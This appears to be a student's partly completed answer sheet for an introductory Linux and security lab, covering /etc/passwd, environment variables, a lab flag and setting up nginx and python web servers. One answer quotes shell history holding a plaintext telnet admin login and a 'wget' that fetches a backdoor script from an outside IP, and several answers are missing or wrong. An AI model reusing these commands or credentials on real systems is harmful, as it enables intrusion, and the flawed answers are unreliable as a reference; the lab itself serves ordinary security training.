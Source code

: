         Your commands : cat -n /etc/passwd 

Using the previous nl command, the head and tail commands, display the lines of /etc/passwd between line 7 and line 12

        Your commands : ###NEED TO WORK ON IT### DIDN'T FIND IT
        


## Bash Environnement  


On your student machine what is the value of the FLAG environment variable ?

    FLAG : BC{EXPORT_B4SH_FLAG}

Currently if you notice your machine, the variable you have created will be deleted. What should you do to make your variable persistent? (With a Bash shell).

    Commands : export variable='myValue'
    

From a hacker's perspective, look for information that might be useful to you in the .history file.

    Your answer: 
    telnet 10.21.55.98 -login admin -pass MyP4ssW0rDiS3CuR3!
	 wget http://10.88.56.53/backdoor.sh
	 
    

From an analyst's perspective, look for information that might be useful to you in the .history file.

    Your answer
    

## Protocols and Servers 



On your kali (or other) , install ngnix to have an http server on port 8080. Replace the default page of ngnix by an html page displaying a hello world.

		 No answer required
        sudo apt update
        sudo apt install nginx
        systemctl status nginx
        system nginx restart

What other well-known service could be used instead of nginx?

        Your answer : Apache, Python

On your student machine, create a temporary http server with python, on port 5000. Then on your kali machine, open a browser and go to the address 10.12.181.X:.

        Your command : python3 -m http.server 5000


Let's imagine that a hacker owns the domain name g00gle.com, which tool would allow him to obtain an ssl certificate (https) very easily?
